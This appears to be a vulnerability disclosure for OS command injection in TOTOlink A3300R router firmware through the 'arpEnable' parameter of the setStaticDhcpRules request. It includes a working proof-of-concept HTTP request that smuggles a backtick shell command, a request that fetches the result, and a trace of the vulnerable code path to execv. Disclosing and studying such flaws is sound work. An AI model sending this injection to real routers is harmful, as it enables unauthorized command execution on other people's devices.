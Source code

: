 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setStaticDhcpRules` request,`arpEnable` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C86034DE71B6FBEB HTTP/1.1
Host: itotolink.net
Content-Length: 84
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/staticdhcp.html?token=C86034DE71B6FBEB
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"arpEnable":"1`ls>/web/cmdi8.txt`","addEffect":"3","topicurl":"setStaticDhcpRules"}
```

injection the command "ls>/web/cmdi8.txt"

![image-20240119132455152](D:\typora 图片\image-20240119132455152.png)

check the result.

```
GET /cmdi8.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 09:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/advance/staticdhcp.html?token=C86034DE71B6FBEB
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![image-20240119132459834](D:\typora 图片\image-20240119132459834.png)

## Analysis

sub_421BF0 will handle the `setStaticDhcpRules` request. sub_421BF0  get `arpEnable` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119132645719](D:\typora 图片\image-20240119132645719.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)

